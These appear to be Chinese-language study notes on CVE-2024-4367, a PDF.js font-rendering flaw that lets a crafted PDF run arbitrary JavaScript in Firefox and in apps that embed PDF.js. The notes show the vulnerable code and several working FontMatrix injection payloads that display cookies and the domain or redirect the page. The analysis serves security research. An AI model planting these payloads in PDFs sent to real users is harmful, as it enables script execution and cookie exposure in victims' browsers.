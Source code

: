 # CVE-2024-4367-PDF.js中任意JavaScript执行

> [(1) X 上的 Thomas Rinsma：“Just released the write-up for CVE-2024-4367, a bug I found recently in PDF.js (and hence in Firefox), resulting in arbitrary JavaScript execution when opening a malicious PDF. https://t.co/sex6fR0xHS” / X](https://x.com/thomasrinsma/status/1792503111317119185)
>
> [CVE-2024-4367 - Arbitrary JavaScript execution in PDF.js — Codean Labs](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)
>
> [Arbitrary JavaScript execution upon opening a malicious PDF · Advisory · mozilla/pdf.js · GitHub](https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq)
>
> [GitHub - LOURC0D3/CVE-2024-4367-PoC: CVE-2024-4367 & CVE-2024-34342 Proof of Concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC)
>
> [GitHub - s4vvysec/CVE-2024-4367-POC: CVE-2024-4367 arbitrary js execution in pdf js](https://github.com/s4vvysec/CVE-2024-4367-POC)
>
> [知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具 (zsxq.com)](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222)

 PDF.js 是由 Mozilla 维护的基于 JavaScript 的 PDF viewer

CVE-2024-4367允许攻击者在打开恶意 PDF 文件后立即执行任意 JavaScript 代码

---

## 影响范围

所有 Firefox 用户 (<126)，因为 Firefox 使用 PDF.js 来显示 PDF 文件

也会严重影响（间接）许多使用 PDF.js 进行预览功能的基于 Web 和 Electron 的应用程序

---

> 实测可复现漏洞版本:
>
> ![image-20240522104457591](http://cdn.ayusummer233.top/DailyNotes/202405241346924.png)
>
> ![image-20240522104518122](http://cdn.ayusummer233.top/DailyNotes/202405241346242.png)
>
> 下载 firefox 旧版本:
>
> - [安装 Firefox 以前的版本 | Firefox 帮助 (mozilla.org)](https://support.mozilla.org/zh-CN/kb/安装 Firefox 以前的版本)
> - [Directory Listing: /pub/firefox/releases/ (mozilla.org)](https://ftp.mozilla.org/pub/firefox/releases/)

---

## 介绍

PDF.js 有两种常见的用例

- 它是 Firefox 内置的 PDF 查看器

- 它被捆绑到一个名为 `pdfjs-dist` 的 Node 模块中，根据 NPM，每周下载量约为 270 万次

  包括但不限于 Git 托管平台到笔记应用程序都用它来提供 PDF 预览功能

  > [pdfjs-dist - npm (npmjs.com)](https://www.npmjs.com/package/pdfjs-dist)
  >
  > ![image-20240521170324479](http://cdn.ayusummer233.top/DailyNotes/202405241346682.png)

---

## Glyph rendering(字形渲染)

这个漏洞和 PDF 的 JavaScript 脚本功能本身无关. 这是在对字体渲染代码的特定部分的疏忽造成的漏洞

PDF 中的字体可以有多种不同的格式，其中一些格式比其他格式更晦涩。

对于 TrueType 等现代格式，PDF.js 主要遵循浏览器自己的字体渲染器。

在其他情况下，它必须手动将字形（即字符）描述转换为页面上的曲线。为了优化性能，它为每个字形预编译了路径生成器函数。

如果支持的话，可以通过创建一个 JavaScript `Function` 对象来完成，该对象的主体 ( `jsBuf` ) 包含组成路径的指令

```js
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

从攻击者的角度来看，如果我们能够以某种方式控制这些 `cmds` 进入 `Function` 主体并插入我们自己的代码，那么一旦这样的字形出现，它就会被执行

---

```js
/FontMatrix [1 2 3 4 5 (1\); alert\('origin: '+window.origin+'\\npdf url: '+window.PDFViewerApplication.url)]

/FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  
<<
  /BaseFont /SNCSTG+CMBX12
  /FontDescriptor 7 0 R
  /Subtype /Type1
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  /Type /Font
>>
      
/FontMatrix [1 2 3 4 5 (0\); location.href=\('https://www.baidu.com')]

/FontMatrix [1 2 3 4 5 (1\); alert\('document.domain: '+window.document.domain+'\\nlocation: '+window.location+'\\ncookie: '+window.document.cookie)]
```

[知识星球 | CVE-2024-4367](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222) 中目前似乎还没看到什么更实际的利用方式

---

